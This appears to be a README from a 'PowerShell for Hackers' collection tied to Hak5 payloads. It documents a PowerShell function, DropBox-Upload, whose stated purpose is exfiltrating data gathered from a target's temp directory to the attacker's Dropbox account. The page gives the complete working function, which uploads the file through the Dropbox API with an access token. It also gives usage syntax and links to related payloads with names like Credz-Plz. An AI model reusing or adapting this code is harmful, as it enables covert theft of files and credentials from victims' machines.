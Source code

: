![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/Assets/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#The-Function">The Function</a></li>
    <li><a href="#Examples">Examples</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# DropBox-Upload

<p align="center">
      <a href="https://www.youtube.com/watch?v=VPU7dFzpQrM">
        <img src=https://i.ytimg.com/vi/VPU7dFzpQrM/hqdefault.jpg width="300" alt="C#" />
      </a>
      <br>YouTube Tutorial
</p>

## Description

This function is used to exfiltrate gathered data to DropBox 

## The Function

### [DropBox-Upload] 

First off for this function to work you need to have a DropBox account. Make one [HERE](https://www.dropbox.com).

Follow this [GUIDE](https://developers.dropbox.com/oauth-guide) for setting up your DropBox account for uploads

Use the following syntax for your upload:

```
DropBox-Upload -FileName "file.txt"

or

"file.txt" | DropBox-Upload
```

Make sure to plug in your newly aquired DropBox token in the $DropBoxAccessToken variable below

(this function will exfiltrate a file from your targets temp directory so make sure you save your aquired data to the same directory)

```
function DropBox-Upload {

[CmdletBinding()]
param (
	
[Parameter (Mandatory = $True, ValueFromPipeline = $True)]
[Alias("f")]
[string]$SourceFilePath
) 
$DropBoxAccessToken = "YOUR-DROPBOX-ACCESS-TOKEN-HERE"   # Replace with your DropBox Access Token
$outputFile = Split-Path $SourceFilePath -leaf
$TargetFilePath="/$outputFile"
$arg = '{ "path": "' + $TargetFilePath + '", "mode": "add", "autorename": true, "mute": false }'
$authorization = "Bearer " + $DropBoxAccessToken
$headers = New-Object "System.Collections.Generic.Dictionary[[String],[String]]"
$headers.Add("Authorization", $authorization)
$headers.Add("Dropbox-API-Arg", $arg)
$headers.Add("Content-Type", 'application/octet-stream')
Invoke-RestMethod -Uri https://content.dropboxapi.com/2/files/upload -Method Post -InFile $SourceFilePath -Headers $headers
}
```

<p align="right">(<a href="#top">back to top</a>)</p>


## Examples 

Listed below are payloads that have used one of these functions:

[ADV-Recon](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ADV-Recon)

[ET-Phone-Home](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-ET-Phone-Home)

[Credz-Plz](https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG/Payloads/OMG-Credz-Plz)

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://youtube.com/c/IamJakoby?sub_confirmation=1">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/youtube-svgrepo-com.svg width="48" height="48" alt="C#" />
      </a>
      <br>YouTube
    </td>
    <td align="center" width="96">
      <a href="https://twitter.com/I_Am_Jakoby">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/twitter.png width="48" height="48" alt="Python" />
      </a>
      <br>Twitter
    </td>
    <td align="center" width="96">
      <a href="https://www.instagram.com/i_am_jakoby/">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/insta.png width="48" height="48" alt="Golang" />
      </a>
      <br>Instagram
    </td>
    <td align="center" width="96">
      <a href="https://discord.gg/MYYER2ZcJF">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [UberGuidoZ](https://github.com/UberGuidoZ)

***

[HOME-PAGE](https://github.com/I-Am-Jakoby/PowerShell-for-Hackers)

<p align="right">(<a href="#top">back to top</a>)</p>
